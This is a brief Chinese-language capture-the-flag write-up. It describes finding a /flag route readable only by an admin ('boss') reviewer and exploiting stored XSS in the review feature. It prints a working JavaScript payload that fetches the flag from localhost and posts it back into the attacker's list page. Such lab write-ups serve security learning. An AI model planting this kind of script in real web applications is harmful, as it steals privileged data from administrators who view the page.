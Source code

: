 # 解题步骤（WriteUp）


![](<./img/Pasted image 20241029114729.png>)

输入任意用户名密码开一个新的list

同时发现`/flag`路由，只有boss能访问

有boss审核功能，猜测存在XSS

尝试发现机子不出网，直接向list页面post信息，获取flag

```js
<script>
        var url = document.location.href;
        fetch("http://127.0.0.1:5000/flag").then(resp => resp.text()).then((flag) => {
            var xhr = new XMLHttpRequest();
            xhr.open("POST", url, true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send("content=" + flag);
        });
</script>

```

![](<./img/Pasted image 20241029114758.png>)
